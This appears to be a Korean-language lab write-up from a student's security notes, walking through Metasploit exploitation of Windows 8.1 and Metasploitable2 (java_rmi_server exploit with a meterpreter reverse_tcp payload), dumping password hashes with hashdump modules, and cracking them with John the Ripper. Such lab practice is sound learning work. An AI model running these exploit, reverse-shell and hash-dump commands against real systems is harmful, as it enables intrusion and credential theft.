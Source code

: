 # John the Ripper 실습
이전에 window Xp에서 했던 것처럼 Window 8.1, metasploit의 Hash값을 얻고 이를 Cracking을 해볼 것이다.  
따라서 Window 8.1에 세션을 맺고 passwordHash를 얻어보자.
### 실습 준비
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Password%20Cracking/John%20The%20Ripper/Source/%EC%8B%A4%EC%8A%B5%20%EC%A4%80%EB%B9%841.png)
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Password%20Cracking/John%20The%20Ripper/Source/%EC%8B%A4%EC%8A%B5%20%EC%A4%80%EB%B9%842.png)
위의 사진과 같이 exploit을 하고 시스템 정보를 얻어보자.  
**sysinfo**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Password%20Cracking/John%20The%20Ripper/Source/%EC%8B%9C%EC%8A%A4%ED%85%9C%20%EC%A0%95%EB%B3%B4%20%EC%96%BB%EA%B8%B0.png)  

이후 hashdump를 얻어보자.  
**run post/windows/gather/hashdump**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Password%20Cracking/John%20The%20Ripper/Source/hash%20%EA%B0%92%20%ED%99%95%EC%9D%B8.png)  
이 Hash 값을 이전의 WindowXp의 Hash를 저장할 때처럼 nano 명령어를 통해 값을 저장할 하고 다음의 Metasexpolit에서도 동일하게 진행할 것이다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Password%20Cracking/John%20The%20Ripper/Source/Hash%20%EA%B0%92%20%EC%A0%80%EC%9E%A5.png)  

이제는 Metasploitable2에 대해 진행을 해볼 것이다.  
**exit**  
Window8.1 expolit 해제.  
**search java_rmi**  
**use exploit/multi/misc/java_rmi_server**
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Password%20Cracking/John%20The%20Ripper/Source/%EC%8B%A4%EC%8A%B52%20%EC%A4%80%EB%B9%841.png)  
**set payload java/meterpreter/reverse_tcp**  
**show options**  
**set RHOST (Meta IP)**  
**set LHOST (Kali IP)**  
**set httpdelay 60**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Password%20Cracking/John%20The%20Ripper/Source/%EC%8B%A4%EC%8A%B52%20%EC%A4%80%EB%B9%842.png)
**sysinfo**  
현재 Meta에 들어왔는지 확인  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Password%20Cracking/John%20The%20Ripper/Source/%EC%8B%A4%EC%8A%B52%20%EC%A4%80%EB%B9%84%EC%99%84%EB%A3%8C.png)  
 
이후 **run post/linux/gather/hashdump**를 통해 PasswordHash값을 얻는다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Password%20Cracking/John%20The%20Ripper/Source/%EC%8B%A4%EC%8A%B52%20hash%20%EC%96%BB%EA%B8%B0.png)  
이를 Window 8.1과 같은 방법으로 저장한다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Password%20Cracking/John%20The%20Ripper/Source/%EC%8B%A4%EC%8A%B52%20hash%20%EC%A0%80%EC%9E%A5.png)  
 
이후 새로운 터미널에서 john을 치면 John the Ripper에 대한 정보가 나온다.  
**find / -nmae password.lst**  
를 새로운 터미널에서 Metasploit 프레임에서 제공하는 passwordlist파일을 확인한다. 
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Password%20Cracking/John%20The%20Ripper/Source/%EC%8B%A4%EC%8A%B52%20%EC%82%AC%EC%9A%A9%ED%95%A0%20passwordlist%20%EC%B0%BE%EA%B8%B0.png)
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Password%20Cracking/John%20The%20Ripper/Source/%EC%8B%A4%EC%8A%B52%20%EC%82%AC%EC%9A%A9%ED%95%A0%20passwordlist.png)
**cat /usr/share/metasploit-framework/data/wordlists/passwordlist.lst |wc**  
를 통해 현재 password파일의 라인 수, 단어 수, 문자 수를 확인해본다.  
이후 password파일을 보며 자신이 추가하고 싶은 단어가 없을 경우 내부에 추가해도 괜찮다.  

**john --wordlist=/usr/share/metasploit-framework/data/wordlists/password.lst /home/kali/Desktop/WinXPHash.txt**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Password%20Cracking/John%20The%20Ripper/Source/Password%20Cracking%20%EC%8B%9C%EB%8F%84.png)
이는 정상적으로 동작하지 않게 된다 이유는 format이 다르기 때문이므로 아래의 명령어를 사용해서 시도해보면 된다.  
**john --wordlist=/usr/share/metasploit-framework/data/wordlists/password.lst /home/kali/Desktop/WinXPHash.txt --format=NT**  
**john --wordlist=/usr/share/metasploit-framework/data/wordlists/password.lst /home/kali/Desktop/MetaHash.txt**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Password%20Cracking/John%20The%20Ripper/Source/meta%20hash%20%ED%95%B4%EC%A0%9C.png)  
**john --wordlist=/usr/share/metasploit-framework/data/wordlists/password.lst /home/kali/Desktop/Win8Hash.txt --format=NT**  
도 동일하게 작업해서 시도하면 된다.
